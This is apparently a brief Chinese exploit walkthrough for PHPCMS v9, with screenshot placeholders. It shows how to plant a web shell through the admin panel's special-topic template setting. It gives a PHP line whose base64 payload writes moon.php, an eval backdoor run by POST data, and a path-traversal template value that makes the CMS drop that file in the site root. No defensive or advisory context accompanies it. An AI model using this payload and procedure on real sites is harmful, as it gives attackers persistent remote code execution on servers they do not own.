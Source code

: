 

 

http://phpcmsv9.com/index.php?m=admin&c=index&a=login&pc_hash=

```
<?php file_put_contents('moon.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUW21vb25dKTs/Pg==')); ?>
```

创建第一个专题

![image-20210502224733654](../acess/image-20210502224733654.png)

创建第二个专题

![image-20210502225056145](../acess/image-20210502225056145.png)

在创建专题扩展那里的模版index改成第一次设置专题../../../../html/special/moon/index

![image-20210502225548233](../acess/image-20210502225548233.png)

 提交 自动在网站跟目标下生成moon.php
